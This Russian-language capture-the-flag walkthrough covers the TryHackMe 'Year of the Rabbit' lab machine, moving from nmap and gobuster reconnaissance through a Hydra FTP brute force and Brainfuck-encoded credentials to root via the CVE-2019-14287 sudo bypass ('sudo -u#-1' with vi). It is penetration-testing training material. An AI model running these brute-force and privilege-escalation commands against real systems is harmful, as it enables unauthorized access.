# Year of the Rabbit - TryHackMe (Easy)

Машина "Year of the Rabbit" - это пример многоуровневого пентеста, где каждый шаг логично вытекает из предыдущего. Задача - получить два флага: пользовательский (user flag) и root flag.



---

## Фаза 1. Разведка

### Шаг 1. Запуск машины и получение IP-адреса



После старта целевой машины нам выдаётся IP-адрес - `10.114.159.85`.

---

### Шаг 2. Сканирование портов (Nmap)




Начинаем с обязательного шага - сканирования открытых портов:

```bash
sudo nmap -sC -sV 10.114.159.85
```

Nmap обнаруживает три открытых порта:

| Порт | Протокол | Версия |
|------|----------|--------|
| 21   | FTP      | vsftpd 3.0.2 |
| 22   | SSH      | OpenSSH 6.7p1 |
| 80   | HTTP     | Apache 2.4.10 (Debian) |

Стандартный набор для Linux-сервера. Заходить будем поочерёдно.

---

## Фаза 2. Веб-разведка

### Шаг 3. Главная страница веб-сервера




Открываем `http://10.114.159.85` - перед нами дефолтная страница Apache2 под Debian. Ничего интересного, но это означает, что нужно искать скрытые директории.

---

### Шаг 4. Перебор директорий (Gobuster)



Запускаем Gobuster с базовым словарём:

```bash
gobuster dir -u http://10.114.159.85 -w /usr/share/dirb/wordlists/common.txt
```

Из результатов выделяется одна запись - **`/assets`** (301 Redirect). Остальные возвращают 403. Идём туда.

---

### Шаг 5. Исследование директории /assets




По адресу `http://10.114.159.85/assets/` находим два файла:
- `RickRolled.mp4` - видео весом 384 МБ
- `style.css` - таблица стилей

Скачивать гигантское видео смысла нет. Открываем CSS.

---

### Шаг 6. Секрет в комментарии CSS-файла




В файле `style.css` среди обычных стилей обнаруживается закомментированная строка.

Отличная находка, скрытый PHP-файл. Переходим по адресу.

---

### Шаг 7. JavaScript-защита и рикролл






При попытке открыть `/sup3r_s3cr3t_fl4g.php` в браузере появляется JavaScript-алёрт с текстом: *"Turn off your javascript..."*, а затем происходит перенаправление прямо на YouTube. Страница защищена JavaScript-редиректом.

---

### Шаг 8. Обход через curl




Используем `curl`, чтобы получить «сырые» HTTP-заголовки без выполнения JavaScript:

```bash
curl -I http://10.114.159.85/sup3r_s3cr3t_fl4g.php
```

Сервер возвращает **302 Found** с заголовком:

```
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
```

Скрытая директория - **`/WExYY2Cv-qU`**.

---

### Шаг 9. Скрытая директория и изображение






Переходим по `http://10.114.159.85/WExYY2Cv-qU/` - внутри один файл: `Hot_Babe.png`. Скачиваем его:

```bash
wget http://10.114.159.85/WExYY2Cv-qU/Hot_Babe.png
```

---

## Фаза 3. Стеганография

### Шаг 10. Извлечение данных из изображения (strings)




Запускаем утилиту `strings` прямо на скачанный PNG-файл:

```bash
strings Hot_Babe.png
```



В потоке текстовых строк из изображения находим спрятанное сообщение с именем пользователя FTP и длинным списком потенциальных паролей:





Сохраняем весь список паролей в файл `pass`.

---

## Фаза 4. Брутфорс FTP

### Шаг 11. Подбор пароля через Hydra



Теперь у нас есть логин (`ftpuser`) и словарь паролей. Запускаем Hydra:

```bash
hydra -l ftpuser -P pass ftp://10.114.159.85
```

Hydra достаточно быстро находит рабочий пароль: **`5iezlwGXkfPKQ`**.

---

### Шаг 12. Подключение к FTP и скачивание файла



Подключаемся к FTP-серверу с найденными учётными данными:

```bash
ftp 10.114.159.85
```



После входа видим файл `Eli's_Creds.txt`. Скачиваем его командой `get`.

---

## Фаза 5. Brainfuck и первый SSH

### Шаг 13. Расшифровка файла Eli's_Creds.txt




Открываем скачанный файл и видим нечто странное.




Это код на языке **Brainfuck**. Одном из самых экзотических языков запутывания. Вставляем его в онлайн-интерпретатор [copy.sh/brainfuck](https://copy.sh/brainfuck/) и получаем обычный текст - имя пользователя и пароль для SSH.

---

### Шаг 14. Вход по SSH под пользователем eli






```bash
ssh eli@10.114.159.85
```

После ввода пароля - успешный вход. При авторизации сразу выводится интересное сообщение от Root для пользователя Gwendoline:



> *"I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"*

Подсказка очевидна, ищем секретную директорию.

---

## Фаза 6. Горизонтальное перемещение

### Шаг 15. Поиск секретного места



Ищем всё, что связано с "s3cr3t":

```bash
find / -name "*s3cr3t*" 2>/dev/null
```



Находим директорию **`/usr/games/s3cr3t`**. Переходим туда и читаем скрытый файл внутри.

Root сам слил пароль - **`MniVCQVhQHUNI`**.

---

### Шаг 16. SSH под пользователем gwendoline



```bash
ssh gwendoline@10.114.159.85
```

Вход успешен.

---

### Шаг 17. Получение User Flag



В домашней директории пользователя `gwendoline` лежит `user.txt`:

```bash
cat user.txt
```

Получаем user флаг.

---

## Фаза 7. Эскалация привилегий

### Шаг 18. Анализ sudo-прав



Смотрим, что может запускать gwendoline от имени других пользователей:

```bash
sudo -l
```

Результат:

```
(ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Разрешение интересное: можно запускать `vi` от имени **любого пользователя, кроме root**. Но это обходится через уязвимость CVE-2019-14287 в sudo, когда версия sudo ниже 1.8.28, можно использовать UID `-1` (или `4294967295`), который sudo интерпретирует как root.

---

### Шаг 19. Эксплуатация sudo + vi для получения root

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```




Внутри редактора vi выполняем команду для запуска shell:

``` :!/bin/sh ``` или ``` :!sh ```

Получаем оболочку с правами **root**.

---

### Шаг 20. Получение Root Flag




```bash
cat /root/root.txt
```
---




## Итог

Машина прошла по следующей цепочке:

1. **Nmap** - обнаружение портов 21, 22, 80
2. **Gobuster** → `/assets` → `style.css` → скрытый PHP-файл
3. **curl** - обход JavaScript-редиректа, нахождение скрытой директории
4. **strings** на PNG - извлечение имени пользователя FTP и списка паролей
5. **Hydra** - брутфорс FTP, получение пароля
6. **FTP** - скачивание `Eli's_Creds.txt` с Brainfuck-кодом
7. **Brainfuck-декодер** - получение SSH-креденциалов для `eli`
8. **find** - обнаружение `/usr/games/s3cr3t` с паролем для `gwendoline`
9. **User flag** получен из домашней директории
10. **CVE-2019-14287** (sudo + vi) - эскалация до root
11. **Root flag** получен из `/root/root.txt`
